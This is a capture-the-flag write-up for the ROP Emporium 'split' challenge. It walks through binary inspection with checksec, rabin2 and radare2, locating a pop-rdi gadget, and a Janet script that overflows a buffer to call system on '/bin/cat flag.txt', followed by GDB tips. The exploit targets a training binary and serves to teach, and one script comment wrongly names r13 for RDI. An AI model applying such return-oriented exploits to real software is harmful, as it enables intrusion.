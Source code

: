 # ROPEmporium - Split (Challenge 2)

```sh
checksec --file=split
# RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
# Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols     No       0               3       split

# alternatively:

rabin2 -I split
# ...
# nx       true
# ...
```

We see `NX` is enabled, meaning we can't execute any code on the stack.

We can look at the `.data` and `.rodata` sections using:

```sh
rabin2 -z split
# [Strings]
# nth paddr      vaddr      len size section type  string
# ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
# 0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
# 1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
# 2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
# 3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
# 4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
# 5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
# 0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```


With `radare2` we analyze helpful functions (once we found a good cheat sheet
for its many cryptic commands):

```
aa  # Analyze all

afl # print function offsets
# 0x004006e8    1 90           sym.pwnme
# 0x00400742    1 17           sym.usefulFunction
# ...

pdf @0x00400742 # disassemble usefulFunction
# ┌ 17: sym.usefulFunction ();
# │           0x00400742      55             push rbp
# │           0x00400743      4889e5         mov rbp, rsp
# │           0x00400746      bf4a084000     mov edi, str.bin_ls         ; 0x40084a ; "/bin/ls"
# │           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
# │           0x00400750      90             nop
# │           0x00400751      5d             pop rbp
# └           0x00400752      c3             ret
```

We learn from the disassembly that `main` calls a `pwnme` function which is
susceptible to a buffer overflow.
The `usefulFunction` function contains a call to `system()` but with the wrong
argument:
It passes the "/bin/ls" string to `system()` instead of the "/bin/cat flag.txt"
string.

This argument is passed using the `RDI` register.
We could manually search for a gadget, or just let `radare2` do the work for us:

```sh
r2 split
# > /R pop rdi
# 0x004007c3                 5f  pop rdi
# 0x004007c4                 c3  ret
```

So we overwrite the stack in a way that `pwnme` will return to `0x004007c3`
and then pop the address of "/bin/cat flag.txt" string into RDI.
Next, the `ret` has to return to `0x0040074b` (taken from the disassembly)
where our `system()` call is located.

The following script should do the trick:

```janet
#!/usr/bin/env janet
(use sh)

(def payload
  (string/join
   [(string/repeat 'A 40)              # garbage to get to the ret address
    "\xC3\x07\x40\x00\x00\x00\x00\x00" # pop rdi; ret gadget
    "\x60\x10\x60\x00\x00\x00\x00\x00" # pop "/bin/cat flag.txt" string addr into r13
    "\x4B\x07\x40\x00\x00\x00\x00\x00" # jump to 0x0040074b -- system(edi)
    ]))

(let [len (length payload)]  # [1]
  (if (<= len 96)
    (print "length ok: " len)
    (print "Warning! Payload truncated after 96 bytes (current length: " len ")")))

(spit "payload.txt" payload) # [2]
($ ./split < ,payload)       # [3]
```

- [1] From the disassembly we know that the buffer has enough space for 32
  bytes, but up to 96 bytes are read in.
  I put this check there when testing the exploit to make sure, I don't
  accidentally write a payload that is too large.
- [2] Write the payload to a file so that I can use it eg. from within GDB.
- [3] Run the binary reading the payload, to test if it works.

## Debugging with GDB

While developing the exploit it is often helpful to get some more insight
into what is going on, eg. by using a debugger.

```
gdb ./split
b *0x004007c3   # set a breakpoint at address
r < payload.txt # run app reading in from payload.txt
start < payload.txt # same as above, but with automatic breakpoint in `main`
starti          # same again, but with breakpoint in `_start`
x/x $rsp        # print hex value of stack pointer
x/s $edi        # print string pointed to by edi
display/15i $rip # print the next 15 instructions on every step
layout asm      # show the disassembly in a separate window
c               # continue to next breakpoint
ni              # next instruction (skip function calls)
si              # step instruction (go into function calls)
disassemble pwnme # show disassembly of the pwnme function
```
